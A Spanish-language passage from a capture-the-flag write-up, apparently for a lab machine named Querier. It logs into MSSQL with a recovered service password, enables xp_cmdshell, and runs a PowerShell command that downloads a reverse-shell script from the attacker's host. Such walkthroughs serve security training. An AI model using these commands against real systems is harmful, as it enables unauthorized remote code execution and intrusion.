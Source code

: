 La contraseña no es valida a nivel de SMB pero si nos sirve para conectarnos a MSSQL.

```bash
mssqlclient.py  -p 1433 'mssql-svc:corporate568@10.10.10.125' -dc-ip 10.10.10.125 -windows-auth
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Este usuario si pude activar la función xp_cmdshell.

```SQL
SQL> sp_configure 'show advanced options', '1'
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> 
```

```SQL
SQL> sp_configure 'xp_cmdshell', '1'
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
```

Ahora podemos ejecutar comandos a nivel de sistema:

```SQL
SQL> EXEC xp_cmdshell 'whoami'
output                                                                                                                                                                                                                                                            
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
querier\mssql-svc
```


Vamos a tratar de establecernos una revshell. Para ello tirare del script "Invoke-PowerShellTcp.ps1"

```bash
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.4/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

Si miramos nuestro servidor de python y nuestro listener veremos que se ha realizado la petición y tenemos nuestra revshell.
